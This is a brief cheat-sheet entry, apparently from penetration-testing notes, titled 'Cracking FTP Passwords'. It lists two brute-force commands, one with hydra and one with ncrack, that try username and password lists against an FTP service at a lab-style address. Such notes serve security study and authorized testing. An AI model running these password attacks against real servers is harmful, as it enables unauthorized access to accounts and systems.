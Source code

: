 # Cracking FTP Passwords

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ftp
ncrack -U <usernames list> -P <passwords list> ftp://10.10.10.10
```
